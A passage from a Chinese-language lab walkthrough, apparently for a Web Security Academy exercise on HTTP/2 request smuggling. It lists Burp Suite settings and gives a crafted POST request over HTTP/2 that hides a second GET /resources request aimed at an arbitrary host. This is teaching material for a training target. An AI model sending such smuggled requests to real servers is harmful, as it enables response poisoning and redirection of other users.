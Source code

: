 [![](assets/1705287960-61675e6752de976a8eb07e9f22cf9548.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103351-db257146-b029-1.png)  
备注：在构造请求时需要在Burpsuite中禁用Update-CL，同时勾选Allow HTTP/2 ALPN override并且把协议改为HTTP2  
[![](assets/1705287960-4a6dfb9ebda551745d7e4ca08d195194.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103402-e21048e6-b029-1.png)  
Step 2：在Burp suite中发送"GET /resources"请求，此时可以看到会被重定向到[https://0aed00cf039321e185db1c3f00a80002.web-security-academy.net/resources/](https://0aed00cf039321e185db1c3f00a80002.web-security-academy.net/resources/)

[![](assets/1705287960-f7da394186c3e2dccf200a6e86a4e65f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103417-eae1c22e-b029-1.png)  
Step 3：随后尝试构造下面的请求来隐藏对任意的host的/resources请求

```plain
POST / HTTP/2
Host: 0aed00cf039321e185db1c3f00a80002.web-security-academy.net
Cookie: session=LPq3scqI6nFu4qD2LbowPurZhkiVCXtY
Content-Length: 0

GET /resources HTTP/1.1
Host: www.baidu.com
Content-Length: 6

x=1
```
